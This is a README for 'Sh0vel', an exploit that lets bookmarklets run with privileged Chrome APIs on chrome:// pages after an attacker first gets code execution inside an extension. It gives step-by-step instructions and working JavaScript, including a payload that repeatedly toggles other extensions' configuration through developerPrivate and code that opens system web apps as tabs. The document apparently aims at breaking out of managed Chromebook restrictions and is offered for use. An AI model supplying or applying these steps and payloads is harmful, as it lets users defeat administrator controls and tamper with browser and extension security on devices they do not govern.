 ![Sh0vel logo](/oie_i9TLE9czG77X.jpg)
# Sh0vel
Sh0vel is an exploit letting bookmarklets run on almost any url, most notably chrome urls, allowing you to access permissions like developerPrivate or settingsPrivate from within an extension.

# Steps:
- Step 1: Get code execution in an extension. This can be by point-blank, skiovox breakout (preferably), XSS, DNS spoofing, or some other wacky way, but you need code execution in the extension.

- Step 2: Verify it has the correct permissions. For this to work, the following permissions are needed:
    - tabs
    - activeTab
    - browserAction
    - 'unsafe-eval' set in the CSP

If it does not have these permissions, this will not work.
- Step 3: Enable the flag "#extensions-on-chrome-urls"
- Step 4: Get a bookmarklet. This is fairly straight-forward. I'll use blank3r as an example.
- Step 5: Place the bookmarklet as follows:
chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `location.href="javascript:replace this part with your own bookmarklet.";`});});

Make the extension run that code.
If you wanted to use blank3r, you would use this code:

chrome.browserAction.onClicked.addListener(() => {chrome.tabs.executeScript(null, {code: `let link=window.open('about:blank','_blank');link.location.href="javascript:let shim = false;var ids = prompt('extension ids (comma separated)').split(',');setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);";`});});

- Step 6: Open the url you want this code to run on. For blank3r, open chrome://extensions.
If you want to run code on an SWA (e.g. chrome://os-settings), you will need to open it as
a normal tab. This can be accomplished with the code below (thank you Writable):
chrome.tabs.create({}, () => {chrome.tabs.update(null, {url: "chrome://file-manager"});});

and you can replace chrome://file-manager with the SWA of your choosing.

- Step 7: Click the extension icon. If done correctly, your bookmarklet will run!

# Credits:
Writable for helping me open SWAs as a normal tab
Me for the finding the original API access exploit
The rest of whelement: mental support while I struggled with random things


# Explanation: 
We can enable the extensions-on-chrome-urls flag to allow code to run as content scripts
on chrome urls, but tabs.executeScript runs without access to some variables in the page it
runs in, notably the chrome object. However, if the extension that invoked tabs.executeScript
has access to use eval, it also has a small side effect: letting us use javascript: urls.
By using an automated version of the point-blank exploit, we can use a javascript bookmarklet
on a chrome url, and for some reason, it runs with access to the chrome object for its opener.
A lot of new things are possible with this, such as spawning webviews from the file manager , 
using blank3r on the latest version, and more.

Aside from trying to run code on chrome urls, it's possible to use normal bookmarklets this way
to launch applications like eruda into pages without it being run as a content script. 
